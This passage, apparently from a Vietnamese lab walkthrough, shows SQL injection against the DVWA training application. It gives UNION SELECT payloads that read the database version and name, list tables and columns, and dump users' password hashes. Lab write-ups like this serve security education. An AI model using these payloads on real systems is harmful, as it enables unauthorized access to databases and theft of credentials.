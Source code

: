 và thấy cả 2 cột đều hiển thị được dữ liệu string

![image](https://hackmd.io/_uploads/SJJlhexxR.png)

- tiếp theo mình kiểm tra thông tin phiên bản của database với lệnh

```sql
' UNION SELECT "column1",version() -- -
```

- và mình được phiên bản hiện tại của database là **10.4.28-MariaDB**

![image](https://hackmd.io/_uploads/SJqNk-lg0.png)

- tiếp theo mình tìm tên của CSDL với lệnh

```sql
' UNION SELECT "column1",database() -- -
```

- và được **dvwa**

![image](https://hackmd.io/_uploads/Hk9gx-geR.png)

- tiếp theo mình tìm các tables trong database này với lệnh

```sql
' UNION SELECT "column1", table_name  from information_schema.tables-- -
```

- chúng ta thấy có rất nhiều table trong đó có 2 table **users** và **guestbook**

![image](https://hackmd.io/_uploads/BJxlGWllA.png)

- tiếp theo mình sẽ tìm các cột trong table users này xem có cột password của chúng ta cần tìm không với lệnh

```sql
' UNION SELECT "column1", column_name  from information_schema.columns WHERE table_name = 'users' -- -
```

- và mình thấy được cột password trong table này

![image](https://hackmd.io/_uploads/H1v_XbxxR.png)

- tiếp theo mình sẽ liệt kê tất cả các user và password của họ ra với câu lệnh

```sql
' UNION SELECT user, password from users-- -
```

- và mình được mã hóa mật khẩu của 5 users có thông database

![image](https://hackmd.io/_uploads/B1UVNWgx0.png)

user giống trong CSDL

![image](https://hackmd.io/_uploads/Sy0NNmxg0.png)
